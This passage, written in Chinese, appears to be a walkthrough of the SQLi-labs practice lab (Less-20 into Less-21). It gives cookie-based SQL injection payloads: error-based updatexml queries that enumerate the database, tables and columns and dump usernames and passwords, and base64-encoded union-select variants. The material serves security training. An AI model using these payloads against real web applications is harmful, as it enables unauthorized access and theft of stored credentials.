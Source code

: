 ![https://gitee.com/xvshifu/pic-go/raw/master/img/20250418195105089.png](https://gitee.com/xvshifu/pic-go/raw/master/img/20250418195105089.png)

闭合  
Cookie: uname=admin'

查询库名  
Cookie: uname=admin' and updatexml(1,concat(1,database()),1) and '

查询表名  
Cookie: uname=admin' and updatexml(1,concat(1,(select group_concat(table_name) from information_schema.tables where table_schema='security')),1) and '

查询字段  
Cookie: uname=admin' and updatexml(1,concat(1,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users')),1) and '

查询数据  
Cookie: uname=admin' and updatexml(1,concat(1,(select group_concat(username,'~',password) from users)),1) and '  
Cookie: uname=admin' and updatexml(1,concat(1,(select concat(username,'~',password) from users limit 0,1)),1) and '

![https://gitee.com/xvshifu/pic-go/raw/master/img/20250418195220281.png](https://gitee.com/xvshifu/pic-go/raw/master/img/20250418195220281.png)

![https://gitee.com/xvshifu/pic-go/raw/master/img/20250418195259655.png](https://gitee.com/xvshifu/pic-go/raw/master/img/20250418195259655.png)

## Less-21

这一关中的Cookie中uname参数的值是base64编码的。

抓包之后，`Cookie: uname=YWRtaW4%3D`

把uname的值粘贴到burpsuite的decoder1（编码工具）模块，尝试解码，url, html, base64，可以看到最终结果是admin%3D

![https://gitee.com/xvshifu/pic-go/raw/master/img/20250418195719432.png](https://gitee.com/xvshifu/pic-go/raw/master/img/20250418195719432.png)

把admin'放到decoder里面, 编码成base64,重放器发回去

从报错可知闭合是')

![https://gitee.com/xvshifu/pic-go/raw/master/img/20250418195915207.png](https://gitee.com/xvshifu/pic-go/raw/master/img/20250418195915207.png)

这关还是可以用报错注入，除了**每条payload都要经过一次base64编码（如果base64编码结果包含等号还要进行url编码），再作为uname的值发送**，其他还是和Less20一样。

Cookie: uname= YWRtaW4nKSM=

admin')#

Cookie: uname=JykgVU5JT04gU0VMRUNUIDEsMiwzIw==

') union select 1,2,3#

Cookie: uname=JykgVU5JT04gU0VMRUNUIGRhdGFiYXNlKCksMiwzIw==

') union select database(),2,3#

Cookie: uname=JykgVU5JT04gU0VMRUNUIGdyb3VwX2NvbmNhdCh0YWJsZV9uYW1lKSwyLDMgRlJPTSBpbmZvcm1hdGlvbl9zY2hlbWEudGFibGVzIFdIRVJFIHRhYmxlX3NjaGVtYSA9ICdzZWN1cml0eScj
